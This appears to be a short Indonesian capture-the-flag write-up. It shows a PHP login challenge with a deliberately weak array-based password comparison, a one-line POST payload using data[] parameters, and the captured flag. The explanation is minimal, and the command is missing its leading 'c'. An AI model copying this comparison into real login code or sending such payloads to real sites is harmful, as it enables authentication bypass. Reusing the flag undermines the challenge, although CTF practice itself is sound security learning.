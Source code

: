 Mimin ada challenge buat kalian, kalian cukup login saja kok :D

Hint: Kali ini bukan sebuah SQL Injection. (Edited) Tambahan, Jangan terlalu terfokuskan pada variabel flag_

Link = https://web.ctf.rasyidmf.com/chal14/

```
<?php
include 'flag.php';

    $data = @$_POST['data'];
    if (@$data['username'] != "") {
        if (@$data['username'] == "admin") {
            if (@$data['password'] != "") {
                $pass = @$flag_data[target_password];
                if ($data['password'] == $pass) {
                    echo "Here is your flag : " . $flag . "<br><br>";
                } else {
                    echo "Password tidak sesuai!<br><br>";
                }
            } else {
                echo "Password masih kosong!<br><br>";
            }
        } else {
            echo "Username tidak sesuai!<br><br>";
        }
    }
?>
```

Bug Array

```
$pass = @$flag_data[target_password];
if ($data['password'] == $pass) {
```

Payload
```
url -X POST -d "data[username]=admin&data[password]=1&data[target_password]=1" https://web.ctf.rasyidmf.com/chal14/ | grep CTFR
```

Flag 
```
CTFR{3xpl01t_fr0m_4rr4y_1nput_1s_4w3s0m3???}
```


